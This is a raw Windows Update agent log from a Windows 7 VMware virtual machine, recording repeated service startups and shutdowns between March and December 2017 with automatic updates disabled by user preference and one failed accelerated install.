2017-03-18	19:06:46:341	 952	5b4	DtaStor	Default service for AU is {9482F4B4-E343-43B6-B170-9A65BC822C77}
2017-03-18	19:06:46:466	 952	5b4	Agent	WARNING: Failed to read the service id for re-registration 0x80070002
2017-03-18	19:06:46:466	 952	5b4	Agent	WARNING: Missing service entry in the backup data store; cleaning up
2017-03-18	19:07:31:581	 952	5b4	Report	CWERReporter::Init succeeded
2017-03-18	19:07:31:581	 952	5b4	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-03-18	19:07:31:581	 952	5b4	Agent	***********  Agent: Initializing global settings cache  ***********
2017-03-18	19:07:31:581	 952	5b4	Agent	  * WSUS server: <NULL>
2017-03-18	19:07:31:581	 952	5b4	Agent	  * WSUS status server: <NULL>
2017-03-18	19:07:31:581	 952	5b4	Agent	  * Target group: (Unassigned Computers)
2017-03-18	19:07:31:581	 952	5b4	Agent	  * Windows Update access disabled: No
2017-03-18	19:07:31:597	 952	5b4	DnldMgr	Download manager restoring 0 downloads
2017-03-18	19:07:31:612	 952	5b4	AU	###########  AU: Initializing Automatic Updates  ###########
2017-03-18	19:07:31:612	 952	5b4	AU	AU setting next sqm report timeout to 2017-03-18 17:07:31
2017-03-18	19:07:31:612	 952	5b4	AU	AU setting next featured software notification timeout to 2017-03-18 17:07:31
2017-03-18	19:07:31:612	 952	5b4	AU	AU featured software notification sequence number is 4170, Generation Time:2017-03-18 17:07:31
2017-03-18	19:07:31:612	 952	5b4	AU	  # AU is not configured yet
2017-03-18	19:07:31:612	 952	5b4	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-03-18	19:07:31:612	 952	5b4	AU	  # Accelerated install is required
2017-03-18	19:07:31:612	 952	5b4	Agent	Switching to hardware-verified ClientId.
2017-03-18	19:07:31:628	 952	5b4	AU	AU is not configured yet, generating timeout to launch setup wizard
2017-03-18	19:07:31:628	 952	5b4	AU	Initializing featured updates
2017-03-18	19:07:31:628	 952	5b4	AU	Found 0 cached featured updates
2017-03-18	19:07:31:924	 952	5b4	Agent	Created new random SusClientId c9646f22-fc6f-4372-b6a7-1a9056600e2f. Old Id: none.
2017-03-18	19:07:31:924	 952	5b4	Report	***********  Report: Initializing static reporting data  ***********
2017-03-18	19:07:31:924	 952	5b4	Report	  * OS Version = 6.1.7600.0.0.197008
2017-03-18	19:07:31:924	 952	5b4	Report	  * OS Product Type = 0x00000008
2017-03-18	19:07:31:940	 952	5b4	Report	  * Computer Brand = VMware, Inc.
2017-03-18	19:07:31:940	 952	5b4	Report	  * Computer Model = VMware Virtual Platform
2017-03-18	19:07:31:955	 952	5b4	Report	  * Bios Revision = 6.00
2017-03-18	19:07:31:955	 952	5b4	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-03-18	19:07:31:955	 952	5b4	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-03-18	19:07:31:955	 952	5b4	Report	  * Locale ID = 1032
2017-03-18	19:07:31:971	 952	5b4	AU	Successfully wrote event for AU health state:0
2017-03-18	19:07:31:971	 952	5b4	AU	Successfully wrote event for AU health state:0
2017-03-18	19:07:31:971	 952	5b4	AU	AU finished delayed initialization
2017-03-18	19:07:31:971	 952	5b4	AU	AU setting next sqm report timeout to 2017-03-19 17:07:31
2017-03-18	19:07:37:041	 952	628	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	01:20:48:735	 952	5b4	AU	Setting timeout for delay launching accelerated install
2017-03-19	01:20:58:751	 952	5b4	AU	Triggering accelerated install by calling UpdateNow
2017-03-19	01:20:58:751	 952	5b4	AU	Can not call UpdateNow if AU is not configured for auto download)
2017-03-19	01:20:58:751	 952	5b4	AU	WARNING: UpdateNow for accelerated install failed with hr:80070005
2017-03-19	01:20:58:751	 952	5b4	AU	Accelerate Install required state reset
2017-03-19	01:20:58:751	 952	5b4	AU	#############
2017-03-19	01:20:58:751	 952	5b4	AU	## START ##  AU: Download updates
2017-03-19	01:20:58:751	 952	5b4	AU	#########
2017-03-19	01:20:58:751	 952	5b4	AU	  # Found no download approved updates.
2017-03-19	01:20:58:751	 952	5b4	AU	#########
2017-03-19	01:20:58:751	 952	5b4	AU	##  END  ##  AU: Download updates
2017-03-19	01:20:58:751	 952	5b4	AU	#############
2017-03-19	01:21:43:570	 952	634	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	01:21:52:228	 952	50c	AU	###########  AU: Setting new AU options  ###########
2017-03-19	01:21:52:228	 952	50c	AU	Setting AU Approval Type to 1
2017-03-19	01:21:52:228	 952	50c	AU	Successfully wrote event for AU health state:0
2017-03-19	01:21:52:228	 952	50c	AU	  # Policy changed, AU refresh required = Yes
2017-03-19	01:21:52:228	 952	50c	AU	  # AU disabled through User preference
2017-03-19	01:21:52:228	 952	50c	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-03-19	01:21:52:228	 952	50c	AU	AU Refresh required....
2017-03-19	01:21:52:228	 952	50c	AU	AU setting next featured software notification timeout to 2017-03-18 23:21:52
2017-03-19	01:21:52:228	 952	50c	AU	Successfully wrote event for AU health state:0
2017-03-19	01:21:52:228	 952	50c	AU	Can not perform non-interactive scan if AU is interactive-only
2017-03-19	01:21:57:235	 952	634	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	01:22:37:046	 952	5b4	AU	AU initiates service shutdown
2017-03-19	01:22:37:046	 952	5b4	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-03-19	01:22:37:062	 952	5b4	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	01:22:37:078	 952	5b4	Service	*********
2017-03-19	01:22:37:078	 952	5b4	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-03-19	01:22:37:078	 952	5b4	Service	*************
2017-03-19	01:25:02:360	 792	700	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-03-19	01:25:02:360	 792	700	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-03-19	01:25:02:360	 792	700	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-03-19	01:25:02:360	 792	700	Service	*************
2017-03-19	01:25:02:360	 792	700	Service	** START **  Service: Service startup
2017-03-19	01:25:02:360	 792	700	Service	*********
2017-03-19	01:25:02:516	 792	700	Agent	  * WU client version 7.3.7600.16385
2017-03-19	01:25:02:516	 792	700	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-03-19	01:25:02:532	 792	700	Agent	  * Access type: No proxy
2017-03-19	01:25:02:532	 792	700	Agent	  * Network state: Connected
2017-03-19	01:25:48:240	 792	700	Report	CWERReporter::Init succeeded
2017-03-19	01:25:48:240	 792	700	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-03-19	01:25:48:255	 792	700	Agent	***********  Agent: Initializing global settings cache  ***********
2017-03-19	01:25:48:255	 792	700	Agent	  * WSUS server: <NULL>
2017-03-19	01:25:48:255	 792	700	Agent	  * WSUS status server: <NULL>
2017-03-19	01:25:48:255	 792	700	Agent	  * Target group: (Unassigned Computers)
2017-03-19	01:25:48:255	 792	700	Agent	  * Windows Update access disabled: No
2017-03-19	01:25:48:255	 792	700	DnldMgr	Download manager restoring 0 downloads
2017-03-19	01:25:48:271	 792	700	AU	###########  AU: Initializing Automatic Updates  ###########
2017-03-19	01:25:48:287	 792	700	AU	  # AU disabled through User preference
2017-03-19	01:25:48:287	 792	700	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-03-19	01:25:48:287	 792	700	AU	Initializing featured updates
2017-03-19	01:25:48:287	 792	700	AU	Found 0 cached featured updates
2017-03-19	01:25:48:521	 792	700	Report	***********  Report: Initializing static reporting data  ***********
2017-03-19	01:25:48:521	 792	700	Report	  * OS Version = 6.1.7600.0.0.197008
2017-03-19	01:25:48:521	 792	700	Report	  * OS Product Type = 0x00000008
2017-03-19	01:25:48:536	 792	700	Report	  * Computer Brand = VMware, Inc.
2017-03-19	01:25:48:536	 792	700	Report	  * Computer Model = VMware Virtual Platform
2017-03-19	01:25:48:536	 792	700	Report	  * Bios Revision = 6.00
2017-03-19	01:25:48:536	 792	700	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-03-19	01:25:48:536	 792	700	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-03-19	01:25:48:536	 792	700	Report	  * Locale ID = 1032
2017-03-19	01:25:48:552	 792	700	AU	Successfully wrote event for AU health state:0
2017-03-19	01:25:48:552	 792	700	AU	Successfully wrote event for AU health state:0
2017-03-19	01:25:48:552	 792	700	AU	AU finished delayed initialization
2017-03-19	01:25:53:606	 792	480	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	01:54:36:379	 792	4d4	AU	Triggering AU detection through DetectNow API
2017-03-19	01:54:36:379	 792	4d4	AU	Can not perform non-interactive scan if AU is interactive-only
2017-03-19	01:54:36:379	2720	9a4	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-03-19	01:54:36:379	2720	9a4	Misc	  = Process: C:\Windows\system32\mmc.exe
2017-03-19	01:54:36:379	2720	9a4	Misc	  = Module: C:\Windows\system32\wuapi.dll
2017-03-19	01:54:36:379	2720	9a4	COMAPI	WARNING: Unable to trigger Automatic Updates to detect now, hr=8024A000
2017-03-19	01:59:27:991	 792	8a8	AU	Successfully wrote event for AU health state:0
2017-03-19	01:59:29:363	 792	41c	AU	Can not perform non-interactive scan if AU is interactive-only
2017-03-19	01:59:33:014	 792	bfc	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	02:04:00:164	 792	700	AU	AU initiates service shutdown
2017-03-19	02:04:00:164	 792	700	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-03-19	02:04:00:211	 792	700	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	02:04:00:211	 792	700	Service	*********
2017-03-19	02:04:00:211	 792	700	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-03-19	02:04:00:211	 792	700	Service	*************
2017-03-19	02:06:41:118	 748	260	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-03-19	02:06:41:118	 748	260	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-03-19	02:06:41:118	 748	260	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-03-19	02:06:41:118	 748	260	Service	*************
2017-03-19	02:06:41:118	 748	260	Service	** START **  Service: Service startup
2017-03-19	02:06:41:118	 748	260	Service	*********
2017-03-19	02:06:41:211	 748	260	Agent	  * WU client version 7.3.7600.16385
2017-03-19	02:06:41:211	 748	260	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-03-19	02:06:41:211	 748	260	Agent	  * Access type: No proxy
2017-03-19	02:06:41:211	 748	260	Agent	  * Network state: Connected
2017-03-19	02:07:27:247	 748	260	Report	CWERReporter::Init succeeded
2017-03-19	02:07:27:247	 748	260	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-03-19	02:07:27:247	 748	260	Agent	***********  Agent: Initializing global settings cache  ***********
2017-03-19	02:07:27:247	 748	260	Agent	  * WSUS server: <NULL>
2017-03-19	02:07:27:247	 748	260	Agent	  * WSUS status server: <NULL>
2017-03-19	02:07:27:247	 748	260	Agent	  * Target group: (Unassigned Computers)
2017-03-19	02:07:27:247	 748	260	Agent	  * Windows Update access disabled: No
2017-03-19	02:07:27:263	 748	260	DnldMgr	Download manager restoring 0 downloads
2017-03-19	02:07:27:278	 748	260	AU	###########  AU: Initializing Automatic Updates  ###########
2017-03-19	02:07:27:278	 748	260	AU	  # AU disabled through User preference
2017-03-19	02:07:27:278	 748	260	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-03-19	02:07:27:278	 748	260	AU	Initializing featured updates
2017-03-19	02:07:27:278	 748	260	AU	Found 0 cached featured updates
2017-03-19	02:07:27:528	 748	260	Report	***********  Report: Initializing static reporting data  ***********
2017-03-19	02:07:27:528	 748	260	Report	  * OS Version = 6.1.7600.0.0.197008
2017-03-19	02:07:27:528	 748	260	Report	  * OS Product Type = 0x00000008
2017-03-19	02:07:27:543	 748	260	Report	  * Computer Brand = VMware, Inc.
2017-03-19	02:07:27:543	 748	260	Report	  * Computer Model = VMware Virtual Platform
2017-03-19	02:07:27:559	 748	260	Report	  * Bios Revision = 6.00
2017-03-19	02:07:27:559	 748	260	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-03-19	02:07:27:559	 748	260	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-03-19	02:07:27:559	 748	260	Report	  * Locale ID = 1032
2017-03-19	02:07:27:575	 748	260	AU	Successfully wrote event for AU health state:0
2017-03-19	02:07:27:575	 748	260	AU	Successfully wrote event for AU health state:0
2017-03-19	02:07:27:575	 748	260	AU	AU finished delayed initialization
2017-03-19	02:07:32:598	 748	988	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	12:34:16:728	 748	260	AU	AU initiates service shutdown
2017-03-19	12:34:16:728	 748	260	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-03-19	12:34:16:759	 748	260	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	12:34:16:759	 748	260	Service	*********
2017-03-19	12:34:16:759	 748	260	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-03-19	12:34:16:759	 748	260	Service	*************
2017-03-19	12:36:42:702	 764	7b4	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-03-19	12:36:42:717	 764	7b4	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-03-19	12:36:42:717	 764	7b4	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-03-19	12:36:42:702	 764	7b4	Service	*************
2017-03-19	12:36:42:717	 764	7b4	Service	** START **  Service: Service startup
2017-03-19	12:36:42:717	 764	7b4	Service	*********
2017-03-19	12:36:42:827	 764	7b4	Agent	  * WU client version 7.3.7600.16385
2017-03-19	12:36:42:827	 764	7b4	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-03-19	12:36:42:827	 764	7b4	Agent	  * Access type: No proxy
2017-03-19	12:36:42:842	 764	7b4	Agent	  * Network state: Connected
2017-03-19	12:37:28:581	 764	7b4	Report	CWERReporter::Init succeeded
2017-03-19	12:37:28:581	 764	7b4	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-03-19	12:37:28:581	 764	7b4	Agent	***********  Agent: Initializing global settings cache  ***********
2017-03-19	12:37:28:581	 764	7b4	Agent	  * WSUS server: <NULL>
2017-03-19	12:37:28:581	 764	7b4	Agent	  * WSUS status server: <NULL>
2017-03-19	12:37:28:581	 764	7b4	Agent	  * Target group: (Unassigned Computers)
2017-03-19	12:37:28:581	 764	7b4	Agent	  * Windows Update access disabled: No
2017-03-19	12:37:28:597	 764	7b4	DnldMgr	Download manager restoring 0 downloads
2017-03-19	12:37:28:613	 764	7b4	AU	###########  AU: Initializing Automatic Updates  ###########
2017-03-19	12:37:28:613	 764	7b4	AU	  # AU disabled through User preference
2017-03-19	12:37:28:613	 764	7b4	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-03-19	12:37:28:613	 764	7b4	AU	Initializing featured updates
2017-03-19	12:37:28:613	 764	7b4	AU	Found 0 cached featured updates
2017-03-19	12:37:28:847	 764	7b4	Report	***********  Report: Initializing static reporting data  ***********
2017-03-19	12:37:28:847	 764	7b4	Report	  * OS Version = 6.1.7600.0.0.197008
2017-03-19	12:37:28:847	 764	7b4	Report	  * OS Product Type = 0x00000008
2017-03-19	12:37:28:847	 764	7b4	Report	  * Computer Brand = VMware, Inc.
2017-03-19	12:37:28:847	 764	7b4	Report	  * Computer Model = VMware Virtual Platform
2017-03-19	12:37:28:862	 764	7b4	Report	  * Bios Revision = 6.00
2017-03-19	12:37:28:862	 764	7b4	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-03-19	12:37:28:862	 764	7b4	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-03-19	12:37:28:862	 764	7b4	Report	  * Locale ID = 1032
2017-03-19	12:37:28:878	 764	7b4	AU	Successfully wrote event for AU health state:0
2017-03-19	12:37:28:878	 764	7b4	AU	Successfully wrote event for AU health state:0
2017-03-19	12:37:28:878	 764	7b4	AU	AU finished delayed initialization
2017-03-19	12:37:33:885	 764	33c	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	19:07:31:010	 764	7b4	AU	AU setting next sqm report timeout to 2017-03-20 17:07:31
2017-03-19	19:35:06:391	 764	7b4	AU	AU initiates service shutdown
2017-03-19	19:35:06:391	 764	7b4	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-03-19	19:35:06:391	 764	7b4	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	19:35:06:407	 764	7b4	Service	*********
2017-03-19	19:35:06:407	 764	7b4	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-03-19	19:35:06:407	 764	7b4	Service	*************
2017-03-19	19:37:37:884	 768	2d0	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-03-19	19:37:37:884	 768	2d0	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-03-19	19:37:37:884	 768	2d0	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-03-19	19:37:37:884	 768	2d0	Service	*************
2017-03-19	19:37:37:900	 768	2d0	Service	** START **  Service: Service startup
2017-03-19	19:37:37:900	 768	2d0	Service	*********
2017-03-19	19:37:38:103	 768	2d0	Agent	  * WU client version 7.3.7600.16385
2017-03-19	19:37:38:103	 768	2d0	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-03-19	19:37:38:103	 768	2d0	Agent	  * Access type: No proxy
2017-03-19	19:37:38:118	 768	2d0	Agent	  * Network state: Connected
2017-03-19	19:38:23:764	 768	2d0	Report	CWERReporter::Init succeeded
2017-03-19	19:38:23:764	 768	2d0	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-03-19	19:38:23:764	 768	2d0	Agent	***********  Agent: Initializing global settings cache  ***********
2017-03-19	19:38:23:764	 768	2d0	Agent	  * WSUS server: <NULL>
2017-03-19	19:38:23:764	 768	2d0	Agent	  * WSUS status server: <NULL>
2017-03-19	19:38:23:764	 768	2d0	Agent	  * Target group: (Unassigned Computers)
2017-03-19	19:38:23:764	 768	2d0	Agent	  * Windows Update access disabled: No
2017-03-19	19:38:23:779	 768	2d0	DnldMgr	Download manager restoring 0 downloads
2017-03-19	19:38:23:795	 768	2d0	AU	###########  AU: Initializing Automatic Updates  ###########
2017-03-19	19:38:23:795	 768	2d0	AU	  # AU disabled through User preference
2017-03-19	19:38:23:795	 768	2d0	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-03-19	19:38:23:795	 768	2d0	AU	Initializing featured updates
2017-03-19	19:38:23:795	 768	2d0	AU	Found 0 cached featured updates
2017-03-19	19:38:24:060	 768	2d0	Report	***********  Report: Initializing static reporting data  ***********
2017-03-19	19:38:24:060	 768	2d0	Report	  * OS Version = 6.1.7600.0.0.197008
2017-03-19	19:38:24:060	 768	2d0	Report	  * OS Product Type = 0x00000008
2017-03-19	19:38:24:076	 768	2d0	Report	  * Computer Brand = VMware, Inc.
2017-03-19	19:38:24:076	 768	2d0	Report	  * Computer Model = VMware Virtual Platform
2017-03-19	19:38:24:076	 768	2d0	Report	  * Bios Revision = 6.00
2017-03-19	19:38:24:076	 768	2d0	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-03-19	19:38:24:076	 768	2d0	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-03-19	19:38:24:076	 768	2d0	Report	  * Locale ID = 1032
2017-03-19	19:38:24:091	 768	2d0	AU	Successfully wrote event for AU health state:0
2017-03-19	19:38:24:091	 768	2d0	AU	Successfully wrote event for AU health state:0
2017-03-19	19:38:24:091	 768	2d0	AU	AU finished delayed initialization
2017-03-19	19:38:29:161	 768	5d8	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	20:09:41:750	 768	2d0	AU	AU initiates service shutdown
2017-03-19	20:09:41:750	 768	2d0	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-03-19	20:09:41:781	 768	2d0	Report	CWERReporter finishing event handling. (00000000)
2017-03-19	20:09:41:797	 768	2d0	Service	*********
2017-03-19	20:09:41:797	 768	2d0	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-03-19	20:09:41:797	 768	2d0	Service	*************
2017-04-13	19:56:22:597	 764	5a0	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0300)  ===========
2017-04-13	19:56:22:597	 764	5a0	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-04-13	19:56:22:597	 764	5a0	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-04-13	19:56:22:597	 764	5a0	Service	*************
2017-04-13	19:56:22:597	 764	5a0	Service	** START **  Service: Service startup
2017-04-13	19:56:22:597	 764	5a0	Service	*********
2017-04-13	19:56:23:767	 764	5a0	Agent	  * WU client version 7.3.7600.16385
2017-04-13	19:56:24:001	 764	5a0	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-04-13	19:56:24:063	 764	5a0	Agent	  * Access type: No proxy
2017-04-13	19:56:24:094	 764	5a0	Agent	  * Network state: Connected
2017-04-13	19:57:10:520	 764	5a0	Report	CWERReporter::Init succeeded
2017-04-13	19:57:10:520	 764	5a0	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-04-13	19:57:10:535	 764	5a0	Agent	***********  Agent: Initializing global settings cache  ***********
2017-04-13	19:57:10:535	 764	5a0	Agent	  * WSUS server: <NULL>
2017-04-13	19:57:10:535	 764	5a0	Agent	  * WSUS status server: <NULL>
2017-04-13	19:57:10:535	 764	5a0	Agent	  * Target group: (Unassigned Computers)
2017-04-13	19:57:10:535	 764	5a0	Agent	  * Windows Update access disabled: No
2017-04-13	19:57:10:551	 764	5a0	DnldMgr	Download manager restoring 0 downloads
2017-04-13	19:57:10:567	 764	5a0	AU	###########  AU: Initializing Automatic Updates  ###########
2017-04-13	19:57:10:567	 764	5a0	AU	AU setting next sqm report timeout to 2017-04-13 16:57:10
2017-04-13	19:57:10:567	 764	5a0	AU	  # AU disabled through User preference
2017-04-13	19:57:10:567	 764	5a0	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-04-13	19:57:10:567	 764	5a0	AU	Initializing featured updates
2017-04-13	19:57:10:567	 764	5a0	AU	Found 0 cached featured updates
2017-04-13	19:57:11:097	 764	5a0	Report	***********  Report: Initializing static reporting data  ***********
2017-04-13	19:57:11:097	 764	5a0	Report	  * OS Version = 6.1.7600.0.0.197008
2017-04-13	19:57:11:097	 764	5a0	Report	  * OS Product Type = 0x00000008
2017-04-13	19:57:11:113	 764	5a0	Report	  * Computer Brand = VMware, Inc.
2017-04-13	19:57:11:113	 764	5a0	Report	  * Computer Model = VMware Virtual Platform
2017-04-13	19:57:11:128	 764	5a0	Report	  * Bios Revision = 6.00
2017-04-13	19:57:11:128	 764	5a0	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-04-13	19:57:11:128	 764	5a0	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-04-13	19:57:11:128	 764	5a0	Report	  * Locale ID = 1032
2017-04-13	19:57:11:144	 764	5a0	AU	Successfully wrote event for AU health state:0
2017-04-13	19:57:11:144	 764	5a0	AU	Successfully wrote event for AU health state:0
2017-04-13	19:57:11:144	 764	5a0	AU	AU finished delayed initialization
2017-04-13	19:57:11:144	 764	5a0	AU	AU setting next sqm report timeout to 2017-04-14 16:57:11
2017-04-13	19:57:16:198	 764	308	Report	CWERReporter finishing event handling. (00000000)
2017-04-13	20:01:13:646	 764	5a0	AU	AU initiates service shutdown
2017-04-13	20:01:13:646	 764	5a0	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-04-13	20:01:13:865	 764	5a0	Report	CWERReporter finishing event handling. (00000000)
2017-04-13	20:01:14:411	 764	5a0	Service	*********
2017-04-13	20:01:14:411	 764	5a0	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-04-13	20:01:14:411	 764	5a0	Service	*************
2017-04-21	07:58:00:868	 764	734	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0300)  ===========
2017-04-21	07:58:00:884	 764	734	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-04-21	07:58:00:884	 764	734	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-04-21	07:58:00:853	 764	734	Service	*************
2017-04-21	07:58:00:884	 764	734	Service	** START **  Service: Service startup
2017-04-21	07:58:00:884	 764	734	Service	*********
2017-04-21	07:58:01:180	 764	734	Agent	  * WU client version 7.3.7600.16385
2017-04-21	07:58:01:180	 764	734	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-04-21	07:58:01:352	 764	734	Agent	  * Access type: No proxy
2017-04-21	07:58:01:399	 764	734	Agent	  * Network state: Disconnected
2017-04-21	07:58:47:528	 764	734	Report	CWERReporter::Init succeeded
2017-04-21	07:58:47:528	 764	734	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-04-21	07:58:47:528	 764	734	Agent	***********  Agent: Initializing global settings cache  ***********
2017-04-21	07:58:47:528	 764	734	Agent	  * WSUS server: <NULL>
2017-04-21	07:58:47:528	 764	734	Agent	  * WSUS status server: <NULL>
2017-04-21	07:58:47:528	 764	734	Agent	  * Target group: (Unassigned Computers)
2017-04-21	07:58:47:528	 764	734	Agent	  * Windows Update access disabled: No
2017-04-21	07:58:47:559	 764	734	DnldMgr	Download manager restoring 0 downloads
2017-04-21	07:58:47:575	 764	734	AU	###########  AU: Initializing Automatic Updates  ###########
2017-04-21	07:58:47:575	 764	734	AU	AU setting next sqm report timeout to 2017-04-21 04:58:47
2017-04-21	07:58:47:575	 764	734	AU	  # AU disabled through User preference
2017-04-21	07:58:47:575	 764	734	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-04-21	07:58:47:590	 764	734	AU	Initializing featured updates
2017-04-21	07:58:47:590	 764	734	AU	Found 0 cached featured updates
2017-04-21	07:58:48:214	 764	734	Report	***********  Report: Initializing static reporting data  ***********
2017-04-21	07:58:48:214	 764	734	Report	  * OS Version = 6.1.7600.0.0.197008
2017-04-21	07:58:48:214	 764	734	Report	  * OS Product Type = 0x00000008
2017-04-21	07:58:48:230	 764	734	Report	  * Computer Brand = VMware, Inc.
2017-04-21	07:58:48:230	 764	734	Report	  * Computer Model = VMware Virtual Platform
2017-04-21	07:58:48:245	 764	734	Report	  * Bios Revision = 6.00
2017-04-21	07:58:48:245	 764	734	Report	  * Bios Name = PhoenixBIOS 4.0 Release 6.0
2017-04-21	07:58:48:245	 764	734	Report	  * Bios Release Date = 2016-04-05T00:00:00
2017-04-21	07:58:48:245	 764	734	Report	  * Locale ID = 1032
2017-04-21	07:58:48:339	 764	734	AU	Successfully wrote event for AU health state:0
2017-04-21	07:58:48:339	 764	734	AU	Successfully wrote event for AU health state:0
2017-04-21	07:58:48:339	 764	734	AU	AU finished delayed initialization
2017-04-21	07:58:48:339	 764	734	AU	AU setting next sqm report timeout to 2017-04-22 04:58:48
2017-04-21	07:58:53:378	 764	678	Report	CWERReporter finishing event handling. (00000000)
2017-04-21	08:00:39:692	 764	734	AU	AU initiates service shutdown
2017-04-21	08:00:39:708	 764	734	AU	###########  AU: Uninitializing Automatic Updates  ###########
2017-04-21	08:00:39:723	 764	734	Report	CWERReporter finishing event handling. (00000000)
2017-04-21	08:00:39:770	 764	734	Service	*********
2017-04-21	08:00:39:770	 764	734	Service	**  END  **  Service: Service exit [Exit code = 0x240001]
2017-04-21	08:00:39:770	 764	734	Service	*************
2017-12-25	04:24:20:972	 772	644	Misc	===========  Logging initialized (build: 7.3.7600.16385, tz: +0200)  ===========
2017-12-25	04:24:20:972	 772	644	Misc	  = Process: C:\Windows\system32\svchost.exe
2017-12-25	04:24:20:972	 772	644	Misc	  = Module: c:\windows\system32\wuaueng.dll
2017-12-25	04:24:20:972	 772	644	Service	*************
2017-12-25	04:24:20:972	 772	644	Service	** START **  Service: Service startup
2017-12-25	04:24:20:972	 772	644	Service	*********
2017-12-25	04:24:21:050	 772	644	Agent	  * WU client version 7.3.7600.16385
2017-12-25	04:24:21:050	 772	644	Agent	  * Base directory: C:\Windows\SoftwareDistribution
2017-12-25	04:24:21:050	 772	644	Agent	  * Access type: No proxy
2017-12-25	04:24:21:050	 772	644	Agent	  * Network state: Disconnected
2017-12-25	04:25:06:399	 772	644	Report	CWERReporter::Init succeeded
2017-12-25	04:25:06:399	 772	644	Agent	***********  Agent: Initializing Windows Update Agent  ***********
2017-12-25	04:25:06:399	 772	644	Agent	***********  Agent: Initializing global settings cache  ***********
2017-12-25	04:25:06:399	 772	644	Agent	  * WSUS server: <NULL>
2017-12-25	04:25:06:399	 772	644	Agent	  * WSUS status server: <NULL>
2017-12-25	04:25:06:399	 772	644	Agent	  * Target group: (Unassigned Computers)
2017-12-25	04:25:06:399	 772	644	Agent	  * Windows Update access disabled: No
2017-12-25	04:25:06:399	 772	644	DnldMgr	Download manager restoring 0 downloads
2017-12-25	04:25:06:399	 772	644	AU	###########  AU: Initializing Automatic Updates  ###########
2017-12-25	04:25:06:399	 772	644	AU	AU setting next sqm report timeout to 2017-12-25 02:25:06
2017-12-25	04:25:06:399	 772	644	AU	  # AU disabled through User preference
2017-12-25	04:25:06:399	 772	644	AU	  # Will interact with non-admins (Non-admins are elevated (User preference))
2017-12-25	04:25:06:399	 772	644	AU	Initializing featured updates
2017-12-25	04:25:06:399	 772	644	AU	Found 0 cached featured updates
2017-12-25	04:25:06:586	 772	644	Report	***********  Report: Initializing static reporting data  ***********
2017-12-25	04:25:06:586	 772	644	Report	  * OS Version = 6.1.7600.0.0.197008
